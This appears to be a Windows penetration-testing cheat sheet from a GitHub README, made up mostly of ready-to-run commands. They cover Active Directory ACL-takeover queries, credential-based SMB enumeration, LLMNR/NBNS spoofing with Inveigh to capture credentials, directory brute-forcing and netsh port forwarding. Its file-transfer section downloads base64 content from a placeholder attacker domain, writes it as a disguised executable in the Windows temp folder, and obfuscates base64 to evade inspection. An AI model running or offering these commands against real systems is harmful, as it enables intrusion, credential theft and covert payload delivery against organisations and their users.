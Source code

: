 # Windows based Pentesting

## Tools
- Nmap   
  Download https://nmap.org/dist/nmap-7.91-setup.exe   

- **PowerView**   
  Get write accessible shares:   
  `Find-DomainShare -CheckShareAccess`   
  Find accounts which have ACLs for account takeover:   
  `Get-DomainObjectAcl -SearchBase "CN=Users,DC=domain,DC=local" | ? { $_.ActiveDirectoryRights -match "GenericAll|WriteProperty|WriteDacl" -and $_.SecurityIdentifier -match "S-1-5-21-3263068140-2042698922-2891547269-[\d]{4,10}" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl`   

- Crackmapexec   
  Download and setup Python 3 from: https://www.python.org/downloads/windows/   
  Download and setup MS Build Tools for C++ from: https://visualstudio.microsoft.com/de/visual-cpp-build-tools/   
  Open cmd.exe and run:   
  `python -m pip install pipx`   
  `pipx ensurepath`  
  `pipx install crackmapexec`   
  Use CrackMapExec in cmd.exe with e.g.:   
  `cme smb 172.21.11.0/24 -u user1 -p 'password' --shares`   

- Impacket   
  After setting up python, download the impacket repository and unpack it: https://github.com/SecureAuthCorp/impacket   
  Afterwards set up with:   
  `pip install .`   
  `pip install pyReadline`   

- Inveigh   
  PowerShell based Responder: https://github.com/Kevin-Robertson/Inveigh   
  Note: Requires elevated privileges!   
  Example:   
  `Invoke-Inveigh -LLMNR Y -mDNS Y -NBNS Y -SpooferIP 172.10.10.1 -ConsoleOutput Y -HTTP N`   
  
- SSLScan   
  https://github.com/rbsec/sslscan/releases/   
  
- EyeWitness   
  Make screenshots of every HTTP/HTTPS target:   
  `.\EyeWitness.exe -f .\targets_http.txt -o c:\temp\EyeWitness\`   
  Whereas the file targets_http.txt contains all URLs with <protocol>://<IP or hostname>:<port>

- Webserver Directory Bruteforcing   
  Use Get-HTTPStatus from PowerSploit:   
  https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/Get-HttpStatus.ps1   
  `foreach($target in (gc .\targets_http_ip.txt)){ Get-HttpStatus -Target $target -Path .\www_wordlist.txt }`   

## Helpful PowerShell commands and scripts  
### File Transfer
- Download base64 encoded files:   
  `[System.IO.File]::WriteAllBytes("c:\windows\temp\telem.exe",[System.Convert]::FromBase64String((New-Object Net.Webclient).downloadstring("https://XOURDOMAIN.COM")))`   

- convert to base64 and replace A with @ for obfuscation:   
  ```
  $base64string = [System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\temp\test.exe"))
  $newstring = $base64string -creplace ('A','@') # NOTE: creplace is important because it must be case sensitive!
  $newstring | Out-File C:\Users\vkoch\Desktop\newfile.b64
  ```
- Convert back after download:   
  ```  
  $ByteArray = [System.Convert]::FromBase64String("(Get-Content "C:\Users\username\Downloads\FFPortable.b64") -creplace ('@','A')")
  [System.IO.File]::WriteAllBytes("C:\temp\newfile.exe", $ByteArray)
  ```
  
- Download through proxyserver:   
```
powershell -Command "[System.Net.WebRequest]::DefaultWebProxy = [System.Net.WebRequest]::GetSystemWebProxy(); [System.Net.WebRequest]::DefaultWebProxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials; (New-Object Net.WebClient).DownloadFile('https://github.com/SnaffCon/Snaffler/releases/download/0.9.11/Snaffler.exe', 'snaffler.exe')"
```
Specify TLS:   
```
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
```

  
### Recon
- Portscanning on single port without ping test:   
  `New-Object System.Net.Sockets.TCPClient -ArgumentList "hostname.domain.local",3389`   
  
- Gather active user sessions on Windows:   
  Check: https://raw.githubusercontent.com/FuzzySecurity/PowerShell-Suite/master/Invoke-NetSessionEnum.ps1   

- SMB Share Wildcard search. If you find an interesting share which e.g. contains user profiles (e.g. citrix profiles) and you want search for every txt file in every profiles desktop folder. The wildcard in this case replaces the subfolder (and some other levels of directories) where the folder name is the username.    
  ```
  $someshare = "\\hostxy\share$\citrix_profiles"
  $dirs = Get-ChildItem -Path "$someshare\*\Desktop" -Directory
  $dirs | % {get-childitem -Path $_ *.txt} | % {$_.FullName}
  ```
- Check current users file permissions:   
  ```
  $files = get-childitem -path c:\some\path\with\lotsoffiles;
  foreach($file in $files){
    $filefullname = $file.FullName;
    $acl = get-acl $filefullname;
    foreach($item in $acl.access){
        if(($item.IdentityReference -like "BUILTIN\Users") -or ($item.IdentityReference -like "Everyone") -or ($item.IdentityReference -like "*$env:username")){
            write-host "+++++++++++++++++++++++++++++++++++++++++++";
            write-host "file: $filefullname";
            $item.FileSystemRights;
        }
    }
}
  ```
List all folder permissions of a specific user or group (in this example "VORDEFINIERT\Benutzer" meaning every user): 
```
$FolderPath = Get-ChildItem -Directory -Path "\\computername\share\users"
$Output = @()
ForEach ($Folder in $FolderPath) {
    $Acl = Get-Acl -Path $Folder.FullName
    ForEach ($Access in $Acl.Access) {
if($access.IdentityReference -eq 'VORDEFINIERT\Benutzer'){
$Properties = [ordered]@{'Folder Name'=$Folder.FullName;'Group/User'=$Access.IdentityReference;'Permissions'=$Access.FileSystemRights;'Inherited'=$Access.IsInherited}
$Output += New-Object -TypeName PSObject -Property $Properties
}
}
}
$Output | Out-GridView
```

## Port Forwarding on Windows
- Setup netsh based port forwarder:      
  `netsh interface portproxy add v4tov4 listenaddress= listenport= connectaddress= connectport= protocol=tcp`   
- Show port forwardings:   
  `netsh interface portproxy show v4tov4`   
- Remove:
  `netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=4444`   
  
